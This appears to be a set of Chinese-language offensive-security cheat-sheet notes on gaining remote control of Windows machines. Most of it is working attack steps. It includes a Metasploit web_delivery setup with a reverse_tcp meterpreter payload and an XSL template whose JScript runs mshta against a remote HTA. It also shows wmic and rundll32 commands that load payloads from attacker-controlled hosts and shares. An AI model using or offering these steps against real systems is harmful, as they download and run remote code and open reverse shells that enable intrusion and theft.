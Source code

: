 #   nohup 添加命令到后台 

  nohup xxxxxxx &

# 更新并安装sudo apt update && sudo apt -y full-upgrade



# Powershell上线msf

msf6 > use exploit/multi/script/web_delivery 

msf6 exploit(multi/script/web_delivery) > set target 2

target => 2

msf6 exploit(multi/script/web_delivery) > set lhost 192.168.31.90

lhost => 192.168.31.90

msf6 exploit(multi/script/web_delivery) > set lport 6666

lport => 6666

msf6 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_tcp

payload => windows/x64/meterpreter/reverse_tcp

msf6 exploit(multi/script/web_delivery) > run

# HTA

use exploit/windows/misc/hta_server

复制以下模板XSL文件，修改其中hta文件的地址为上图中的地址即可。

<?xml version='1.0'?><stylesheetxmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"xmlns:user="placeholder"version="1.0"><output method="text"/><ms:script implements-prefix="user" language="JScript"><![CDATA[var r = new ActiveXObject("WScript.Shell").Run("mshta.exe http://192.168.123.43:8080/OtUpxMXOEhocL.hta");]]> </ms:script></stylesheet>

将上面文件保存为xsl文件，并放到apache根目录/var/www/html。然后在Windows中执行下面命令wmic os get /format:"http://172.20.0.27/ptsh.xsl"

# smb_delivery

use exploit/windows/smb/smb_delivery

set srvhost 192.168.1.227

run

rundll32.exe \\192.168.1.227\.\xxx.dll,0

